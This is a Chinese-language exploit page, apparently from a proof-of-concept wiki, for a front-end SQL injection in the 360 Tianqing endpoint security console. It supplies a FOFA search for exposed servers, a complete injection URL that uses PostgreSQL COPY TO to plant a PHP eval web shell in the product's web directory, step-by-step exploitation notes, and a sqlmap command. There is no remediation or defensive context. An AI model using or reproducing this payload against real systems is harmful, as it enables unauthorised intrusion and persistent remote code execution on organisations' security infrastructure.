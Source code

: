 # 天擎 前台SQL注入

## 漏洞描述

天擎 存在SQL注入,攻击者可以通过漏洞上传木马

## 漏洞影响

> [!NOTE]
>
> 天擎

## FOFA

> [!NOTE]
> title="360新天擎"

## 漏洞复现

```
注入写shell:
https://192.168.24.196:8443/api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--  


利用过程:
1. 通过安装包安装的一般都有root权限，因此该注入点可尝试写shell
2. 通过注入点，创建一张表 O
3. 为 表O 添加一个新字段 T 并且写入shell内容
4. Postgres数据库 使用COPY TO把一个表的所有内容都拷贝到一个文件(完成写shell)
5. 删除 表O
```

使用命令

```
sqlmap -u https://xxx.xxx.xxx.xxx:8443/api/dp/rptsvcsyncpoint?ccid=1 --dbms PostgreSQL
```

![](http://wikioss.peiqi.tech/vuln/tq-1.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> 360 TianQing ccid SQL injectable

![](http://wikioss.peiqi.tech/vuln/tq-3.png)